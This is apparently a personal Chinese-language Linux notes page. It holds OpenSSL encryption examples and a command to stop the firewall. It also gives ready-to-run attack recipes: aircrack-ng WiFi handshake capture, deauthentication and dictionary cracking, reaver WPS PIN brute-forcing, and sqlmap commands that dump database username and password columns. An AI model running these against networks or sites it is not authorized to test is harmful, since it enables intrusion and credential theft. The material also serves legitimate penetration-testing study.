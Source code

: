 # [Home](../README.md)
## [Linux](https://www.apiref.com/linux-zh/linux-command-manual.html)

![linux](https://www.runoob.com/wp-content/uploads/2014/06/d0c50-linux2bfile2bsystem2bhierarchy.jpg)

### Linux发行版
- [Ubuntu](http://www.ubuntu.com/)
- [Fedora](http://fedoraproject.org/)
- [Debian](http://www.debian.org/)
- [CentOS](http://www.centos.org/)
- [Arch](https://www.archlinux.org/)
- [Kali](https://www.kali.org/)
- [ElementaryOS](https://elementary.io/zh_CN/)
- [Nitrux](https://nxos.org/)

### 基本操作
```shell
#关闭防火墙
systemctl stop firewalld.service

```
### openssl
> 加密

```shell
echo '明文' | openssl aes-128-cbc -k "key" -base64
```

>解密

```shell
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | openssl aes-128-cbc -d -k "key" -base64
echo "U2FsdGVkX19nGdcPGq41k5Nq92WRzXIkH1YVcBAjJpQ=" | tr ' ' '\n' | openssl aes-128-cbc -d -k "key" -base64
```

```shell
#Standard commands
asn1parse         ca                ciphers           cms
crl               crl2pkcs7         dgst              dhparam
dsa               dsaparam          ec                ecparam
enc               engine            errstr            gendsa
genpkey           genrsa            help              list
nseq              ocsp              passwd            pkcs12
pkcs7             pkcs8             pkey              pkeyparam
pkeyutl           prime             rand              rehash
req               rsa               rsautl            s_client
s_server          s_time            sess_id           smime
speed             spkac             srp               storeutl
ts                verify            version           x509

#Message Digest commands (see the `dgst' command for more details)
blake2b512        blake2s256        gost              md4
md5               mdc2              rmd160            sha1
sha224            sha256            sha3-224          sha3-256
sha3-384          sha3-512          sha384            sha512
sha512-224        sha512-256        shake128          shake256
sm3

#Cipher commands (see the `enc' command for more details)
aes-128-cbc       aes-128-ecb       aes-192-cbc       aes-192-ecb
aes-256-cbc       aes-256-ecb       aria-128-cbc      aria-128-cfb
aria-128-cfb1     aria-128-cfb8     aria-128-ctr      aria-128-ecb
aria-128-ofb      aria-192-cbc      aria-192-cfb      aria-192-cfb1
aria-192-cfb8     aria-192-ctr      aria-192-ecb      aria-192-ofb
aria-256-cbc      aria-256-cfb      aria-256-cfb1     aria-256-cfb8
aria-256-ctr      aria-256-ecb      aria-256-ofb      base64
bf                bf-cbc            bf-cfb            bf-ecb
bf-ofb            camellia-128-cbc  camellia-128-ecb  camellia-192-cbc
camellia-192-ecb  camellia-256-cbc  camellia-256-ecb  cast
cast-cbc          cast5-cbc         cast5-cfb         cast5-ecb
cast5-ofb         des               des-cbc           des-cfb
des-ecb           des-ede           des-ede-cbc       des-ede-cfb
des-ede-ofb       des-ede3          des-ede3-cbc      des-ede3-cfb
des-ede3-ofb      des-ofb           des3              desx
rc2               rc2-40-cbc        rc2-64-cbc        rc2-cbc
rc2-cfb           rc2-ecb           rc2-ofb           rc4
rc4-40            seed              seed-cbc          seed-cfb
seed-ecb          seed-ofb          sm4-cbc           sm4-cfb
sm4-ctr           sm4-ecb           sm4-ofb           zlib
```
### wifi密码跑字典
```shell
airmon-ng check kill			#杀死进程
airmon-ng start wlan0			#是wlan0网卡开起monitor mode
airodump-ng wlan0mon			#查看附件wifi
airodump-ng --bssid mac地址 -c CH值 -w crack wlan0mon		#开始抓包

aireplay-ng --deauth 10 -a mac地址 -c 抓到的mac地址 wlan0mon
aircrack-ng -w 密码字典路径 crack-01.cap

airmon-ng stop wlan0mon		#关闭wlan0网卡monitor mode
```
### wifi跑pin码
```shell
airmon-ng start wlan0
wash -i wlan0mon
reaver -i wlan0mon -b mac地址 -S -N -vv -c CH值
```

### sqlmap工具
```shell
sqlmap -u url --dbs --current-user	
sqlmap -u url --dbms mysql -D dbName --tables
sqlmap -u url --dbms mysql -T admin --columns
sqlmap -u url --dbms mysql -T admin -C field1, field2 --dump

sqlmap -u url?id=1
sqlmap -u url?id=1 --dbs
sqlmap -u url?id=1 --current-db		#列出当前使用的数据库名
sqlmap -u url?id=1 --tables -D "db_name"
sqlmap -u url?id=1 --columns -T "tb_name" -D "db_name"
sqlmap -u url?id=1 --dump -C "username, password" -T "tb_name" -D "db_name"

sqlmap -u url?id=1 --is-dbs #判断该注入点是否有管理员权限，true表示管理员
```
